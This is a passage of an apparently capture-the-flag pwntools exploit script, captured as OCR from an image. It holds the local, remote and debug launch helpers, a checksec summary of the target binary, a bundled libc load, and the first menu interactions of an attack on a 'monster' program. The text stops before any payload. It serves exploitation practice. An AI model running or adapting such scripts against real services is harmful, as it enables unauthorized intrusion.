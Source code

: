 ```python
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

libc = ELF('./libc.so.6')

io = start()

# add monster 0

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('0')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
```